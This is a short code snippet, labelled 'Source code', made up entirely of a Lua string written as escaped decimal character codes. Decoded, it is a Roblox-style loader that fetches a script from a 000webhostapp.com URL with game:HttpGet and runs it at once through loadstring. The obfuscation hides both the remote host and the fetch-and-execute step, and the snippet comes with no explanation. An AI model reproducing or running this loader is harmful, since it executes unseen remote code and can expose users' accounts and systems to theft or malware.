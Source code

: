 \9\108\111\97\100\115\116\114\105\110\103\40\103\97\109\101\58\72\116\116\112\71\101\116\40\34\104\116\116\112\115\58\47\47\52\51\51\51\51\51\51\51\51\51\52\51\52\53\54\53\54\121\55\46\48\48\48\119\101\98\104\111\115\116\97\112\112\46\99\111\109\47\100\102\102\100\102\100\100\102\100\115\103\100\102\103\106\100\102\106\107\103\106\107\100\102\104\106\103\100\104\102\107\103\104\100\102\107\106\103\104\100\102\107\106\103\104\100\102\106\107\103\104\106\100\107\34\41\41\40\41\10
